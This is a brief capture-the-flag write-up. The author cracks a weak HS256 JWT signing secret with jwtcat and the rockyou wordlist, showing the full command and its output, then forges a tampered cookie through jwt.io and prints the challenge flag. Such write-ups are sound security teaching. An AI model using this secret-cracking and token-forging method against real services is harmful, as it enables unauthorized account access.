 ## Description:
![img ](./description.png)

* we have an endpoint that give us a JWT HS256 signed cookie back
* bruteforce the cookie with this tool <a href='https://github.com/aress31/jwtcat'>jwtcat</a>

* command:
```
$ python3 jwtcat.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCJ9.jbf34kzJ36YbWPQU69k-mlieDVmaWiIiAs6jPU1mH4o -w /usr/share/wordlists/rockyou.txt
[INFO] JWT: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCJ9.jbf34kzJ36YbWPQU69k-mlieDVmaWiIiAs6jPU1mH4o
[INFO] Wordlist: /usr/share/wordlists/rockyou.txt
[INFO] Starting brute-force attacks
jwtcat.py:110: DeprecationWarning: The 'warn' method is deprecated, use 'warning' instead
  logger.warn("Pour yourself some coffee, this might take a while..." )
[WARNING] Pour yourself some coffee, this might take a while...
[INFO] Secret key: fuckit
[INFO] Secret key saved to location: jwtpot.potfile
[INFO] Finished in 0.13006305694580078 sec
```

* so we foubnd the private key, now we can tamper the cookie and resign it. To do that I used https://jwt.io/

![img ](./tamper-jwt-cookie.png)

* now we can just set it and login with this and get the flag

* flag `LLS{jawt_was_just_what_you_thought}`
